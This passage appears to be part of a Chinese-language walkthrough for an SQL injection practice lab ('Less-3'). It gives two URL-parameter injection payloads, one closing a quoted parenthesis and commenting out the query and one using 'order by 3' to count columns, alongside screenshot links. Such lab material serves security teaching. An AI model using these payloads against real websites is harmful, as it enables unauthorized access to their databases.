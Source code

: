 ~~~ shell
?id=1')--+
~~~

![Less-3_2](./img/Less-3_2.PNG)



+ 注入以下语句进行

~~~ shell
?id=1') order by 3--+
~~~

![Less-3_3](./img/Less-3_3.PNG)
